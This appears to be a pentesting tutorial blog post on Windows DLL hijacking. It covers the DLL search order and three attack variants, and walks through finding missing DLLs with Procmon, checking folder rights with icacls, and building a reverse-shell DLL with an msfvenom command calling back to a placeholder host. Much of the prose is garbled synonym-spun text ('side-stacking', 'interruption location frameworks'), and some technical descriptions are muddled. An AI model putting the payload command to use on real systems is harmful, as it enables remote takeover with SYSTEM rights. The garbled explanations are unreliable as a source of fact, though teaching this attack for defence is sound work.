

The information provided in this site is for educational purposes regarding pentesting. The author of the site will not be held any responsibility for any misuse of the information from this site.
Introduction
Even though we routinely use computer application to play out our everyday Task, not many of us know or will, in general, consider the ramifications of how this software is built, and any shortcomings it may be vulnerable as it starts execution.
But hackers and cyber-criminals use various tools and methods to target applications once they are up and ready to execute. there is a possibility to compromise certain functions of software when it’s called up to execute the task from an index, or by clicking on an icon. these applications might have a possibility of weakness which can be exploited while a program is assembling and checking all the files and basic dependency before the application is ready to carry out the task, DLL hijacking is often seen or common in Microsoft Windows application
So what is DLL?
To understand DLL hijacking we need to understand what is DLL
A DLL or Dynamic Link Library is a collection of commands or information needed to run a portion of a complex and huge application. This data is called whenever it is required (dynamically), reducing the need to have multiple copies of code into the core of the main program. This technique reduces the loading time for an application especially for larger pieces of software and improves the overall efficiency of the software which allows efficient use of computer resources and time utilization. These DLLs typically contain multiple procedures and codes which allow them to be used by a range of different programs, at the same time.
DLL Hijacking
DLL hijacking is an attack which exploits the task carried out by Windows search and load algorithm, wherein allowing an attacker to inject code/payload into an application through disk manipulation. which is simply writing a malicious DLL file in the right place causes a vulnerable application to load that malicious DLL. The attack on the DLL has been used since the beginning of Windows 2000 and works perfectly till date.
The paths for locating DLL files are set by the operating system — Windows, in most cases, These paths are established using Global Environmental Variables.when an application request a Dynamic Link Library file, the operating system (OS) first checks for it in the same folder where the application is located. If the DLL which is required can’t be located there, then the OS searches through other folders, as determined by the Global Environmental Variable.
As DLLs may be present in different folders across the hard drive of an operating system, this creates a possibility of weakness present int he system which allows an attacker to replace their version of a DLL file into the directory path set by the environment variable which is mapped for the application can search for required DLL.
The technique of replacing the original DLL file with a malicious DLL file is a strategy of the attacker which will allow the malicious DLL to be called and process the malicious DLL allowing the attacker to gain control over the application remotely. There is various form of DLL hijacking but they have one thing in common which is to load or perform the malicious activities on the end-user compromising the DLL
The DLL required by a specific application is hardcoded into the software, Windows will search for them in a predefined order which is well set used by the Microsoft and which is also available to potential hijackers. Its default search setting is mentioned below as the hackers have various means to change or introduce a rogue DLL the hackers focus on the below-mentioned list:
- The directory from which the application is loaded
- C:\Windows\System32
- C:\Windows\System
- C:\Windows
- The current working directory
- Directories in the system PATH environment variable
- Directories in the user PATH environment variable
Types of DLL Hijacking attacks
DLL Hijacking attacks are broadly classified into three types they are as follow :
DLL search order attack: If a Windows OS searches for the rogue DLL path in a specific sequence then it is DLL search order attack. Therefore, a malicious DLL can be replaced in the search order, and the executable will load it.it first checks for an authentic DLL directory which contains the names of known system DLLs. If the DLL mentioned in the “import name” command matches with an authenticDLL, then this Dynamic Link Library will be mapped to the relevant process address space, in the system memory and once the rogue DLL is loaded the attacker payload executes which in turn can create a connection to the target system and can be controlled easily
A Windows registry key handles where the list of KnownDLLs is located — and hackers can alter the related registry key to exclude their malicious DLLs from processing via the DLL protocol.
DLL side- stacking attack: A DLL side- stacking attack abuses the WinSxS registry, which is situated in C:\Windows\WinSxS, holds various adaptations of DLLs and is utilized by numerous applications to forestall issues related with a new or copied version of Dynamic Link Libraries.
An application intended to utilize the WinSxS index to fetch a DLL should initially counsel a display which records the DLLs that might be called upon at runtime to a specific application, and which is utilized in figuring out which version of a DLL to be selected
Ghost/Phantom DLL Hijacking:Phantom DLL Hijacking attack uses very old DLLs that are still attempted to be loaded by apps. DLLs which applications may contain instructions to load at start-up — even if they’re not essential to using the software
To take advantage of this loophole, attackers simply need to name their malicious Dynamic Link Library as one of these DLLs and place it in the relevant search path for the application to find and the code will be executed
Let’s Test this out
For a successful DLL hijacking attack, the attacker requires to trick victims to open the file using a vulnerable application from a remote network location. If the vulnerable application successfully loads the external DLL from the same location, the attack will most likely be successful but there are situation where the application crashes wherein a custom exploit should be created instead of using automated Metasploit framework to carry out the attack.
To find an application with DLL injection we need to use Procmon or process monitor which will list all the processes on the system and discover these processes which are running as SYSTEM and are missing DLL's

Process Monitor will identify the running process if there is any DLL called by the application and the actual path that the application is looking for the missing DLL.
The iCACLS command allows to display or change an Access Control Lists (ACLs) for files and folders on the file system
To show current permissions on a specific folder (for example, C:\PS), open a Command prompt and run the command:
icacls c:\PS
Below is a complete list of permissions that can be set using the icacls utility.
- iCACLS inheritance settings:
- (OI) — object inherit;
- (CI) — container inherit;
- (IO) — inherit only;
- (NP) — don’t propagate inherit;
- (I) — permission inherited from the parent container;
- List of basic access permissions:
- D — delete access;
- F — full access;
- N — no access;
- M — modify access;
- RX — read and eXecute access;
- R — read-only access;
- W — write-only access;
now we use Metasploit to generate our payload which will return a session with a privilege
Command: msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=<listening port> -f dll -o <dll name>
The running process is running as SYSTEM which means these privileges will be granted to the user only when the system is restarted as the DLL with the malicious payload will be loaded and executed by the process.

The running process is running as SYSTEM which means these privileges will be granted to the user only when the system is restarted as the DLL with the malicious payload will be loaded and executed by the process
once the DLL is loaded a connection is created and we can access it with netcat and simple smbserver script which is available on Linux machine.
How to safeguard the end system from DLL hijacking
To guard against DLL hijacking necessities to begin from the product designers. If developers utilize outright ways to characterize the normal area of Dynamic Link Libraries in the product code, the vulnerability can be enormously decreased.
It should be tested out by a penetration tester
There are various tools focused to identify the DLL injection, or for testing whether your framework and applications are vulnerable.
Regarding counteraction, great system practices, for example, having a solid firewall introduced and utilizing interruption location frameworks are the first line of protection
Obstructing the TCP ports 445 and 139 (which are most ordinarily utilized for trading off PCs) is another viable advance. Also, ensuring that your working framework and applications are forward-thinking and consistently fixed can guarantee that you have the most recent guards.
Microsoft has a mechanism for blocking DLL hijacking attacks. It’s a system which additionally incorporates outsider devices